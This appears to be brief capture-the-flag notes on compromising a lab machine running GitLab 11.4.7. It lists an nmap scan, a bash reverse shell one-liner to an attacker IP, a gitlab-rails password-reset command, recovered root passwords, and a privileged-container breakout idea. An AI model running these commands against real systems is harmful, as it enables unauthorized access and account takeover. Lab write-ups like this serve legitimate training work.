 # ready

- ip: 10.10.10.220

## nmap
```
Nmap scan report for 10.10.10.220
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
```

## port 5080: gitlab
- gitlab community edition 11.4.7
- gitlab: `Linux gitlab.example.com 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`
- reverse shell: `bash -i >& /dev/tcp/10.10.14.5/9091 0>&1`
- email: `dude@ready.com`
- change email:
  - `$ gitlab-rails runner -e production 'u = User.find_by(username: "dude"); u.password="aaaaaaaa";u.password_confirmation="aaaaaaaa";u.save;'`
- root pass: `YG65407Bjqvv9A0a8Tm_7w`

## privesc (docker breakout) ideas
- `root_pass`? rabbit hole
- privileged flag? (yes) mount `/dev/sda2`
- root password (`/opt/backup/gitlab.rb`): `wW59U!ZKMbG9+*#h`
